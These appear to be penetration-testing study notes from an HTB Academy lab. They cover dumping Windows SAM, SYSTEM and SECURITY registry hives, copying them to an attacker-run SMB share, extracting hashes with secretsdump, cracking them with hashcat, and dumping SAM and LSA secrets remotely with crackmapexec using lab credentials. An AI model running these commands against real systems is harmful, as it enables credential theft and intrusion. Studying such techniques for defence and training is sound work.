 There are 3 main registry hives which we can dump

|Registry Hive|Description|
|---|---|
|`hklm\sam`|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|`hklm\system`|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|`hklm\security`|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|
We can use *reg.exe* to save registries
```cmd-session
reg.exe save hklm\sam C:\sam.save
```

Technically we only need `hklm\sam` and `hklm\system` but `hklm\security` can be helpful as it can contain hashes associated with cached domain user credentials. 
```
impacket-smbserver
```

```shell-session
-smb2support CompData /home/ltnbob/Documents/
```

Once we have SMB running we can move saves to local files.

```cmd-session
move security.save \\10.10.15.16\CompData
```

We can dump hashes from the sam with 
```
Impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```

Passwords can then be cracked in hashcat
```shell-session
hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### Remote Dumping & LSA Secrets Considerations
```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

We can also dump hashes from SAM database remotely
```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```


## Attacking LSASS
*Local Security Authorization Subsystem Service* 
Upon initial logon, LSASS will:
- Cache credentials locally in memory
- Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
- Enforce security policies
- Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)
